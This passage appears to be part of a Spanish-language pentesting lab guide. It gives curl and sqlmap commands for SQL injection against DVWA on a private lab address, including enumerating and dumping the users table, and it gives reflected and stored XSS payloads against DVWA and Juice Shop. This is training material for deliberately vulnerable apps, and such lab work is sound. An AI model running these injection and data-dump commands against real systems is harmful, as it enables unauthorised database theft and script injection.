 **Procedimiento**:


# Acceso a DVWA
curl -c cookies.txt http://192.168.90.10:8080/login.php

# Obtener token CSRF
curl -b cookies.txt http://192.168.90.10:8080/vulnerabilities/sqli/

# Prueba manual de SQL Injection
curl -b cookies.txt "http://192.168.90.10:8080/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit"

# Uso de SQLMap
sqlmap -u "http://192.168.90.10:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=xxx" --dbs

# Enumeración de tablas
sqlmap -u "http://192.168.90.10:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=xxx" -D dvwa --tables

# Extracción de datos
sqlmap -u "http://192.168.90.10:8080/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=xxx" -D dvwa -T users --dump



#### 4. Cross-Site Scripting (XSS)

**Objetivo**: Explotar vulnerabilidades XSS en múltiples aplicaciones.

**Herramientas**: Manual Testing, XSS Hunter, BeEF

**Procedimiento**:


# XSS Reflejado en DVWA
curl -b cookies.txt "http://192.168.90.10:8080/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>"

# XSS Almacenado en DVWA
curl -b cookies.txt -d "txtName=<script>alert('Stored XSS')</script>&mtxMessage=Test&btnSign=Sign+Guestbook" http://192.168.90.10:8080/vulnerabilities/xss_s/

# XSS en Juice Shop
curl "http://192.168.90.10:3000/rest/user/login" -d '{"email":"<script>alert(1)</script>","password":"test"}'
